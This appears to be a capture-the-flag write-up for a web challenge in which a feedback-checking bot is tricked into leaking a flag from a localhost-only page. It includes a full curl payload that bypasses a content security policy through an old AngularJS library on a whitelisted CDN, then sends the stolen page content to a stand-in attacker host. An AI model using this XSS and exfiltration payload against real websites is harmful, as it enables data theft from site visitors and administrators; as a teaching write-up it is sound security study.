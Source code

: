 # The Galactic Times

## Problem

The Galactic Times is a monthly Alien newspaper that focuses on news from around the Galaxy. This month's issue is focused on the Human race and contains some very controversial articles. The newspaper reportedly contains a restricted endpoint with some Alien secrets. Can you find a way to view the forbidden pages?

[Task file](files/web_the_galactic_times.zip)

## Solution

We are given source code of a website, where we can leave feedback. Feedback is checked automatically by the bot via puppeteer right after we submit feedback. Flag is hardcoded on the `/alien` webpage that's only accessible from localhost.

So, we have to make this feedback checking bot to visit this page and send the flag back to us. Feedback itself isn't sanitized, but the target page is protected by CSP. Luckily, it's configuration is vulnerable due to whitelisted `cdnjs.cloudflare.com` domain. It allows us to include vulnerable script that we can use to bypass CSP. One of those scripts is old `angular.js`, which allows us to basically inject any JS and it will be executed as a part of whitelisted script:

````sh
curl "http://task.domain/api/submit" -d "feedback=<script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.1.3/angular.min.js'></script><div ng-app ng-csp>{{\$eval.constructor('a=new XMLHttpRequest();a.open(\"GET\", \"/alien\", false);a.send(null);document.location.href=\"https://evilguy.domain/?flag=\".concat(btoa(a.responseText.match(/{.*}/g)))')()}}</div>"
````

After a bit, bot kindly sends us the flag.

## TL;DR

 - Input is vulnerable to XSS
 - Page is protected by CSP
 - Use whitelisted domain to bypass policy
